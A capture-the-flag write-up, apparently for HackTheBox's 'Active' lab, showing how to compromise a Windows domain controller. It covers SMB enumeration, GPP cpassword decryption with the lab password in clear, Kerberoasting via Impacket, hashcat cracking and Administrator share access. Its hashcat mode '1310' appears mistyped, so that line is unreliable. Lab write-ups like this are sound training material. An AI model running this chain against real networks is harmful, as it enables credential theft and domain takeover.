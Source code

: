 # Active
A really interesting box to learn the basics of AD/Kerberos/Kerbroasting. There are a few different ways/tools to pwn this box, but here's what I believe to be one of the easiest ways.

![Active](../Images/htb_active_0.png)

**Tools: nmap, smbclient, smbmap, gpp-decrypt, ntpdate, hashcat, Impacket (GetADUsers.py and GetUserSPNs.py).**

We begin by running nmap to scan the target:  
`nmap -Pn -sC -sV -p- -T4 --min-rate=10000 10.10.10.100`

![Active](../Images/htb_active_1.png)

Quite a few open ports, but right away we see that this box runs an AD, has SMB/NetBIOS shares and runs on a Windows Server 2008. Also, the domain name is 'active.htb'.  
Let's enumerate SMB with smbmap:  
`smbmap -H 10.10.10.100`

![Active](../Images/htb_active_2.png)

So we have read access to 'Replication'. Let's take a look at its files and download them using smbclient:  

```
smbclient //10.10.10.100/Replication  
recurse ON  (so we can run the commands to interact with the share)  
prompt OFF  (so we can download the files without getting prompted to confirm)
```

![Active](../Images/htb_active_3.png)

With 'ls' we list the files and with 'mget\*' we download them all.  
In order to locate the downloaded files we can run 'updatedb', then we can locate a file that seems to be important, like 'Groups.xml'. This file has the 'Group Policy Preferences', and can be abused to leak users' passwords, just like below after 'cpassword'. We can also see the username 'svc_tgs'.

![Active](../Images/htb_active_4.png)

We can then decrypt the password using gpp-decrypt:

![Active](../Images/htb_active_5.png)

With all the information gathered, we can now run smbmap again, using the credentials we've just found:  
`smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100`

![Active](../Images/htb_active_6.png)

Now we can see that we've access to a few more shares. Let's go back to smbclient to test them:  
`smbclient //10.10.10.100/Users -U active.htb/svc_tgs`

![Active](../Images/htb_active_7.png)

At 'Users' we're able to find the 'user.txt' file containing the user flag.  
Next up, we can use Impacket's GetADUsers to see the users in this box:  
`python3 GetADUsers.py active.htb/svc_tgs -dc-ip 10.10.10.100 -all`

![Active](../Images/htb_active_8.png)

Now I'd recommend either HTB's Official Walktrough or a good Google research to read and understand about the basics of Kerberos and the Kerbroasting technique.  
We'll use Impacket's GetUserSPNs to find 'Service Principal Names' and try to extract the NTLM hash for the 'Ticket Granting Service' - below is the descryption of the process, as explained inside the tool:  
*"This module will try to find Service Principal Names that are associated with normal user account. Since normal account's password tend to be shorter than machine accounts, and knowing that a TGS request will encrypt the ticket with the account the SPN is running under, this could be used for an offline bruteforcing attack of the SPNs account NTLM hash if we can gather valid TGS for those SPNs."*   
```
python3 GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs
python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```

![Active](../Images/htb_active_9.png)

If, instead of the NTLM hash, you get an error containing "(Clock skew too great)", it's because the box has a different date/time than your VM, and this process requires a time difference of no more than 5 minutes (in some cases the limit can be of 1 minute). You can try using ntpdate and date to fix this:  
```
ntpdate 10.10.10.100  (you might need to install this tool with 'apt install' - take a look at the 'time')  
date  (to see the correct pattern for the date/time)  
date -s "date and time here"  (to set the date/time)  
```

![Active](../Images/htb_active_10.png)

And then run the GetUserSPNs again to extract the hash.  
We can crack this hash using hashcat and the wordlist 'rockyou.txt' - first, copy the hash ahd save it to a file called 'hash.txt':  
`hashcat -m 1310 hash.txt /usr/share/wordlists/rockyou.txt`

![Active](../Images/htb_active_11.png)

![Active](../Images/htb_active_12.png)

There you can see the 'Administrator' password. Now we can simply use smbclient once again to connect to the 'C$' share and grab the root flag from the Administrator's Desktop folder:  
`smbclient //10.10.10.100/C$ -U active.htb/Administrator`

![Active](../Images/htb_active_13.png)

**That's all for this box folks!**  
Thanks for reading and keep hacking!
